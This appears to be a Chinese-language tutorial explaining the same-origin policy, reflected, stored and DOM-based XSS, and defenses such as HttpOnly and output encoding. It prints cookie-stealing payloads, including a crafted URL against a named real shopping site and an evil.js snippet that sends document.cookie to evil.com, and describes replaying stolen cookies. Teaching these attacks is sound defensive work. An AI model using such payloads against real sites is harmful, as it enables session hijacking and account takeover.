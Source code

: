 [[toc]]

####同源策略（前置知识）

#####定义
>同源策略（Sameoriginpolicy）是一种约定，它是浏览器最核心也最基本的安全功能，如果缺少了同源策略，则浏览器的正常功能可能都会受到影响。可以说Web是构建在同源策略基础之上的，浏览器只是针对同源策略的一种实现。
同源策略是浏览器的行为，是为了保护本地数据不被JavaScript代码获取回来的数据污染，因此__拦截的是客户端发出的请求回来的数据，即请求发送了，服务器响应了，但是无法被浏览器接收.

#####本质
>a. 影响“源”的因素有：host（域名或者IP地址）、子域名、端口、协议
![](http://img.xiumi.us/xmi/ua/26J14/i/cf0780b9647ff7fe1d87c3e98216987a-sz_49287.png)
b.对浏览器来说，DOM、Cookie、XMLHttpRequest会受到同源策略的限制

#####举例说明
>a.一个浏览器的两个tab页中分别打开来百度和谷歌的页面
b.当浏览器的百度tab页执行一个脚本的时候会检查这个脚本是属于哪个页面的，即检查是否同源，只有和百度同源的脚本才会被执行
c.如果非同源，那么在请求数据时，浏览器会在控制台中报一个异常，提示拒绝访问

!!#ff0000 __不受同源策略的标签__!!
>a. &lt;script&gt;、&lt;img&gt;、&lt;iframe&gt;、&lt;link&gt;等标签都!!#ff0000可以跨域加载资源，而不受同源策略的限制,而xss正是利用这一点进行攻击的!!
b.这些带"src"属性的标签每次加载时，浏览器会发起一次GET请求。通过src属性加载的资源，浏览器限制了javascript的权限，使其不能读、写返回的内容

***

####跨站脚本攻击（XSS）

#####定义
>英文全称：CrossSiteScript，XSS攻击，通常指黑客通过“HTML注入”篡改了网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击，本质
是一种“HTML注入”，用户的数据被当成了HTML代码一部分来执行，从而产生了新的语义

#####分类

 !!#ff0000 1.反射型XSS!!
>__定义__
非持久化，一般需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面
__举例说明__
a.假设在某购物网站上搜商品，当搜不到商品时会出现
![](http://img.xiumi.us/xmi/ua/26J14/i/ab1fab1ecd26872d063809cd99f65ebb-sz_39866.png)
此时的URL是`https://category.vip.com/suggest.php?keyword=xss&amp;ff=235|12|1|1`
b.在搜索框输入` <script&gt;alert('xss')</script&gt;`
c.如果前端页面没有对搜索框的内容进行过滤，而是直接发送，这时，URL地址栏应该会显示
`https://category.vip.com/suggest.php?keyword=&lt;script&gt;alert('xss')&lt;/script&gt;&amp;ff=235|12|1|1`
从而alert出xss，但事实却是已经转码了的：
`https://category.vip.com/suggest.php?keyword=%3Cscript%3Ealert(%27xss%27)%3C%2Fscript%3E&amp;ff=235|12|1|1`
d.假设前端页面没有进行处理，那么攻击者就可以通过构造来获取用户的cookie的地址，来诱使用户来访问这个地址，比如说
`https://category.vip.com/suggest.php?keyword=&lt;script&gt;document.location='http://xss.com/get?cookie='+document.cookie&lt;/script&gt;&amp;ff=235|12|1|1`

***

 !!#ff0000 2.存储型XSS!!

>__定义__
存储型XSS，持久化，代码是存储在服务器中的
__举例说明：__
a.在个人信息或发表文章等地方，加入代码
b.如果没有过滤或过滤不严，那么这些代码将储存到服务器中
c.用户访问该页面的时候触发代码执行

 !!#ff0000 3.DOM Based XSS!!
>__定义__
通过修改页面的DOM节点形成的XSS。
__举例说明__
a.点击write会执行的代码
![](http://img.xiumi.us/xmi/ua/26J14/i/0d48cbf4b0e67957801596a1d22dfc6c-sz_25620.png)
b.在输入框中输入内容后点击write
![](http://img.xiumi.us/xmi/ua/26J14/i/950c3264b0d5ec06ec0d800e4fb03fc9-sz_50957.png)
c.此时再点击 /textLink/ (a链接)
![](http://img.xiumi.us/xmi/ua/26J14/i/d32eb78706e158169dbe443cbbae67a4-sz_48709.png)
__原理__
首先用一个单引号闭合掉href的第一个单引号，然后插入一个onclick事件，最后再用注释符"//"注释掉第二个单引号。点击此链接，脚本将被执行

#####XSSPayload攻击

>__定义__
XSS攻击成功后，攻击者能够对用户当前浏览的页面植入恶意脚本，通过恶意脚本，控制用户的浏览器。这些用以完成各种具体功能的恶意脚本，被称为XSSPayload。实际上就是Javascript脚本（或者Flash或其他富客户端的脚本），所以XSSPayload能够做到任何javascript脚本能实现的功能
__原理__
一般一个网站为了防止用户无意间关闭页面，重新打开需要重新输入账号密码繁杂的情况下，一般都会把登录信息（登录凭证）加密存储在CooKie中，并且设置一个超时时间，在此时间段内，用户利用自己账号信息随意进出该网站。如果该网站遭到XSSPayload，黑客盗取了该用户的Cookie信息，往往意味着该用户的登录凭证丢失了，换句话说，攻击者不需要知道该用户的账号密码，直接利用盗取的Cookie模拟凭证，直接登录到该用户的账户。
__举例说明__
a.攻击者先在一个社区发表一篇文章
![](http://img.xiumi.us/xmi/ua/26J14/i/b6a3ef18d4edd35dd005ed2b20f2a849-sz_38617.png?x-oss-process=image/resize,w_1080/auto-orient,1/crop,x_0,y_67,w_899,h_260)
b.点击加载一个远程脚本`http://www.a.com/test.htm?abc="><script src=http://www.evil.com/evil.js></script>`
c.真正的XSSPayload写在这个远程脚本中，避免直接在URL的参数里写入大量的Javascript代码。
在evil.js中，通过如下代码窃取cookie
`var img=document.createElement("img");`
`img.src="http://www.evil.com/log?"+escape(document.cookie);`
`document.body.appendChild(img);`
d.以上代码在页面中插入了一张看不见的图片，同时把document.cookie对象作为参数发送到远程服务器中,
e.`http://www.evil.com/log`并不一定要存在，因为这个请求会在远程服务器的Web日志中留下记录`127.0.0.1--[119/Jul/2010:11:30:42+0800]"GET/log?sessionID%3Dsadasdasdascas%3B%20UUID%3D1123214HTTP/1.1"404288`
f.模拟CooKie登陆,f12打开控制台，模拟输入对应的cookie
![](http://img.xiumi.us/xmi/ua/26J14/i/e24b74af45ea93c6d8e2e9993b0f446b-sz_37217.png)__

####XSS的防御
1.HttpOnly

>浏览器禁止页面的Javascript访问带有HttpOnly属性的cookie。（实质解决的是：XSS后的cookie劫持攻击）如今已成为一种“标准”的做法
不同语言给cookie添加HttpOnly的方式不同，比如
JavaEE: `response.setHeader("Set-Cookie","cookiename=value";Path=/;Domain=domainvalue;Max-Age=seconds;HTTPOnly");`
PHP4: `header("Set-Cookie:hidden=value;httpOnly");`
PHP5: `setcookie("abc","test",NULL,NULL,NULL,NULL,TRUE);//ture为HttpOnly属性`

2.输入检查（XSSFilter）
>让一些基于特殊字符的攻击失效。（常见的Web漏洞如XSS、SQLInjection等，都要求攻击者构造一些特殊字符）
输入检查的逻辑，必须放在服务器端代码中实现。目前Web开发的普遍做法，是同时在客户端Javascript中和服务端代码中实现相同的输入检查。客户端的输入检查可以阻挡大部分误操作的正常用户，节约服务器资源。

3.输出检查
>在变量输出到HTML页面时，使用编码或转义的方式来防御XSS攻击
a.针对HTML代码的编码方式：HtmlEncode
b.PHP：htmlentities()和htmlspecialchars()两个函数
c.Javascript：JavascriptEncode（需要使用“\”对特殊字符进行转义，同时要求输出的变量必须在引号内部）
d.在URL的path（路径）或者search（参数）中输出，使URLEncode
[具体实施点击此处](https://www.cnblogs.com/lovesong/p/5211667.html)

####总结
XSS漏洞虽然复杂，但是却是可以彻底解决的。在设计解决方案时，应该针对不同场景理解XSS攻击的原理，使用不同的方法。
